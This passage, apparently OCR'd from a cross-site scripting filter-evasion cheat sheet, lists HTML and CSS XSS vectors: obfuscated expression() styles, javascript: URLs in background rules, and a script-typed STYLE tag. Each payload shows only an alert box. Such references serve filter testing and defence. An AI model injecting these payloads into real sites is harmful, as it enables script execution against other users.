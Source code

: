 ```html
exp/*<a
  style='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'
></a>
```

## STYLE Tag (Older versions of Netscape only)

```html
<style type="text/javascript">
  alert('XSS');
</style>
```

## STYLE Tag using Background-image

```html
<style>
  .XSS {
    background-image: url("javascript:alert('XSS')");
  }</style
><a class="XSS"></a>
```

## STYLE Tag using Background

```html
<style type="text/css">
  BODY {
    background: url("javascript:alert('XSS')");
  }</style
>` `<style type="text/css">
  BODY {
    background: url("<javascript:alert>('XSS')");
  }
</style>
```

## Anonymous HTML with STYLE Attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```html
<XSS STYLE="xss:expression(alert('XSS'))"></XSS>
```

## Local htc File

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

